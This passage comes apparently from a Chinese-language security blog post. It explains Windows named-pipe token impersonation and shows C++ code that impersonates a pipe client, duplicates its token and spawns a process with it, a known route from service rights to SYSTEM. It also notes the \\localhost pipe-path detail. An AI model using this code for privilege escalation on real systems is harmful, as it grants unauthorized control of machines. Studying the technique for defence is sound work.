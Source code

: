 ```plain
    if (ImpersonateNamedPipeClient(NamedPipehandle) == false) {
        cout << "ImpersonateNamedPipeClient " << GetLastError() << endl;
        getchar();
    }

    HANDLE hToken;
    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken) == false)
    {
        cout << "OpenThreadToken " << GetLastError() << endl;
        getchar();
    }
    HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;

    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup) == false) {
        cout << "DuplicateTokenEx " << GetLastError() << endl;
        getchar();
    }

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { 0 };
    si.cb = sizeof(STARTUPINFO);

    if (CreateProcessWithTokenW(hSystemTokenDup, LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false) {
        cout << "CreateProcessWithTokenW " << GetLastError() << endl;
        getchar();
    }
    cin.get();
    return 0;
}
```

我在具备 system 的权限上 cmd 输入了`echo 1 > \\localhost\pipe\endlessparadox`把输入写入命名管道，之后服务端将拉起一个新的具备客户端的权限，值得注意的是 localhost 是固定的写法，如何写成`\\.\`这导致模拟失败，windows error code 显示 1368，这代表在从该管道读取数据之前，无法使用命名管道进行模拟，下面是正常效果：

[![](assets/1705982113-5f1e6935de0cf15b5c20b31b6c3ab51f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120230124-c74d1188-b7a4-1.png)
